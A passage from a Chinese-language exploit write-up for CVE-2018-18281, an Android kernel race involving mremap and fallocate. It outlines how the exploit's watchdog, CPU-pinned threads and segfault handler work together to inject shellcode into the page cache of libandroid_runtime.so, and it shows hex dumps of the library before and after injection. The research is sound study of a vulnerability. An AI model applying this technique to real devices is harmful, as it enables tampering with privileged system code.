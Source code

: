 这段汇编执行后, hostname 将被更新为文件 '/proc/self/attr/current' 的内容

## watchdog.c 

这个文件的作用是不断调用 exp 可执行文件并监控 exploit 是否成功, 之所以需要这个主调程序是由于这个漏洞在触发的时候, 大部分情况会引发程序奔溃, 这时候需要一个看门狗程序不断重启它

## exp.c

这个文件实现了 exploit 的主体功能

- kickout_victim_page 函数
- idle_worker 线程
- spinner 线程
- nicer_spinner 线程
- read_worker 线程
- segv_handler 函数

kickout_victim_page 函数实现了 [如何提高文件 page cache 命中率](#raise_pagecache_hit) 的算法, 最开始执行

idle_worker 线程用于触发 mremap 调用, 先绑定到 c1, spinner 唤醒后重绑定 idle_worker 到 c3, 调度策略为 SCHED_IDLE , 其他线程都是普通调度策略

spinner 线程用于触发 fallocate (跟 ftruncate 效果类似) 调用以释放物理页面, 然后立刻调用 read 读取目标地址, 争取让目标地址使用刚刚释放的物理页面作为 page cache, 绑定到 c2 

nicer_spinner 线程绑定到 c3, 用于抢占 idle_worker  的 cpu 使用权

read_worker 线程绑定到 c4, 用于监控目标内存, 一旦发现 race 成功触发, 则注入 shellcode 到目标内存

segv_handler 函数是段错误处理函数, 这里会再一次检测 shellcode 是否已经成功注入到目标文件, 如果是, 则通知 watchdog 停止重启 exp

执行 exploit 之前, libandroid_runtime.so 如下

```bash
adb pull /system/lib64/libandroid_runtime.so

root@jiayy:CVE-2018-18281# xxd -s 0x157000 -l 100 libandroid_runtime.so 
00157000: 0871 0091 5f00 08eb c000 0054 e087 41a9  .q.._......T..A.
00157010: e303 1f32 0800 40f9 0801 43f9 0001 3fd6  ...2..@...C...?.
00157020: 2817 40f9 a983 5af8 1f01 09eb e110 0054  (.@...Z........T
00157030: ff03 1191 fd7b 45a9 f44f 44a9 f657 43a9  .....{E..OD..WC.
00157040: f85f 42a9 fa67 41a9 fc6f c6a8 c003 5fd6  ._B..gA..o...._.
00157050: f801 00b0 d901 00b0 ba01 00f0 7b02 00f0  ............{...
00157060: 9c01 0090  
```

执行 exploit 之后, libandroid_runtime.so 如下

```bash
adb pull /system/lib64/libandroid_runtime.so

root@jiayy:CVE-2018-18281# xxd -s 0x157000 -l 100 libandroid_runtime.so 
00157000: 0000 20d4 0000 20d4 600c 8092 0100 0090  .. ... .`.......
00157010: 2120 0191 0200 80d2 0807 80d2 0100 00d4  ! ..............
00157020: ff03 02d1 e103 0091 0210 80d2 e807 80d2  ................
00157030: 0100 00d4 e103 00aa e003 0091 2814 80d2  ............(...
00157040: 0100 00d4 0000 0014 2f70 726f 632f 7365  ......../proc/se
00157050: 6c66 2f61 7474 722f 6375 7272 656e 7400  lf/attr/current.
00157060: eaff ff17                                ....
```
